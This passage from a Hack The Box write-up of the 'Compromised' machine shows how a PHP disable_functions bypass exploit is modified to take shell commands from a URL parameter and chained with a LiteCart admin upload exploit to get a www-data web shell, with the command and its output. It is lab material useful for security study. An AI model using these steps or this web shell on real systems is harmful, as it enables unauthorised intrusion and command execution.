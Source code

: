   * I also find php version is `7.2.24-0ubuntu0.18.04.6`
  * there is a **disable functions bypass vulnerability** in the php version 7.0<7.3 and i can use that to bypass the disabled function and can execute shell commands but don't get shell.
    * [PHP 7.0 < 7.3 (Unix) - 'gc' disable_functions Bypass](https://www.exploit-db.com/exploits/47462) - ExploitDB 

* I just need to upload that disable_functions bypass exploit php file and change the `pwn` function input in line 17 `pwn("uname -a");` to a shell commands i want to execute and get output in the browser from `http://10.10.10.207/shop/vqmod/xml/bypass.php`

* in the `pwn` function from exploit.php file i use `$_REQUEST` [superglobal variable](https://www.php.net/manual/en/reserved.variables.request.php)

**super global variable** `$_REQUEST` is used to collect the user input so we can use this variable to run commands from url field without uploading php file every time

**solving all scripts errors -**

**First**, change bypass.php `pwn` function input from shell command -

    pwn("uname -a");

to a global variable - 

    pwn($_REQUEST['c']);

**Second**, to solve ExploitDB's litecart exploit script we need to remove php shell from it -

![](/assets/img/posts/compromised/before.png)

and load bypass.php file in it -

![](/assets/img/posts/compromised/after.png)


### USER:www-data shell

**Run [litecart exploit script](https://github.com/x00tex/hackTheBox/blob/main/Boxes/linux/Retired/compromised/scripts/litecart-exploitdb.py)**

`python litecart-exploitdb.py -t http://10.10.10.207/shop/admin/ -p 'theNextGenSt0r3!~' -u admin`
```
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/F8ALL.php?c=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
compromised
www-data
```
